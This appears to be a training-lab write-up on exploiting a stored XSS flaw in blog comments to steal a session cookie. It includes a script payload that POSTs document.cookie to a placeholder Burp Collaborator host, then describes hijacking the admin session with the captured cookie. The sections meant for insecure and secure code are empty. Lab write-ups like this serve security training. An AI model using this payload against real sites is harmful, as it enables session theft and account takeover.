


## Exploiting cross-site scripting to steal cookies

### Objective:
- This lab contains a **stored XSS** vulnerability in the blog comments function. 
- A simulated victim user views all comments after they are posted. 
- To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

### Security Weakness:

### Exploitation Methodology:
1. Using Burp Suite Professional, go to the **Collaborator** tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```
4. This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
5. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.

6. Take a note of the value of the victim's cookie in the POST body.
7. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.
8. We can also replace the captured admin users session token and replace it in the browser storage to load admin user's account page. 


### Insecure Code:

### Secure Code:
